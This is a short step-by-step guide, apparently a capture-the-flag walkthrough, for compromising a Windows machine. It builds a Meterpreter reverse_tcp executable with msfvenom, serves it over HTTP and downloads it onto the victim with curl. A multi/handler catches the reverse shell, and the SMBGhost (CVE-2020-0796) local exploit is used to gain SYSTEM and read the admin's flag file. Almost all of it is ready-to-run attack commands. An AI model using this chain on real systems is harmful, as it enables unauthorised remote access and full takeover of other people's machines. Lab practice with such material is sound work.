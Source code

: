 # Guide

1 - On your */home/[user]/* of your attacker machine, do :

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[HOST_IP] LPORT=443 -a x64 --platform Windows -f exe -o meter64.exe
```

2 - Launch a HTTP server on your attacker machine :
```
python3 -m http.server 8080
```

3 - Curl the file *meter64.exe* on your victim machine :

```
curl http://[HOST_IP]:8080/meter64.exe --output meter64.exe
```

4 - On your attacker machine, do :

```
msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST [HOST_IP];set LPORT 443;exploit;"
```

5 - On your victim machine, execute *meter64.exe* to open a reverse shell on your attacker machine :

```
meter64.exe
```

6 - On your attacker machine, in the reverse shell, do :

```
getuid
```

You can see you are the default user you are connected to on the victim machine.

7 - On your attacker machine, in the reverse shell, do :

```
background
```

It will drop out the meterpreter session.

8 - On your attacker machine, do :

```
search exploit/windows/local/cve
```

It will display some exploits.

```
use exploit/windows/local/cve_2020_0796_smbghost
```

This is the cve that we want to exploit.

```
set SESSION 1
set LHOST [HOST_IP]
set LPORT 8080
```

It will set options.

To verify your options :
```
show options
```

To exploit :
```
exploit
```

It will open a reverse shell. Then, do :

```
getuid
```

You can see you are logged on as the system !

Now, you can navigate to the admin documents to have the flag :

```
cd ..
cd ..
cd Users
cd admin
cd Documents
cat flag.txt
```

Congratulations !
